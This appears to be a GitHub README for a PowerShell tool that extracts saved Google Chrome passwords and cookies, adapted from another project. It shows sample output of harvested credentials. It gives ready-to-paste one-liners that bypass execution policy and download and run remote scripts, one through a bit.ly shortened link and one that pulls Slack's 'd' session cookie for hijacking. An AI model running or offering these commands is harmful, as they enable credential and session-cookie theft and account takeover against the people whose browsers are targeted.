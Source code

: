 Note: Most of this code comes from https://github.com/et0x/Get-ChromePasswords, I've only mildly tweeked it and added in cookie dumping.

# Get-ChromePasswords
```PowerShell
.Synopsis
  Quickly retrieve Google Chrome passwords using powershell (please note this creates sqlite assemblies in your temp directory)

.PARAMETER Path
  
  The optional path to a non-standard database location for the Google Chrome Login Data database.  Generally found at '<APPDATA>\Local\Google\Chrome\Default\Login Data'

.EXAMPLE
  PS> .\Get-ChromePasswords

  Url                                                                                                    Username                  Password
  ---                                                                                                    --------                  --------
  https://accounts.google.com/signin/challenge/sl/password                                               user1                     password
  ...
```

## Quick mode...

```PowerShell
  C:\> powershell -exec bypass -c "IEX((new-object net.webclient).downloadstring('https://bit.ly/2OMBArT'));Get-ChromeCreds"
```

## Just pull "d" Cookie for use with SlackExtract...

```PowerShell
powershell -exec bypass -c "IEX((new-object net.webclient).downloadstring('https://raw.githubusercontent.com/clr2of8/Get-ChromePasswords/master/Get-CC.ps1'));Get-CC -SE"
```

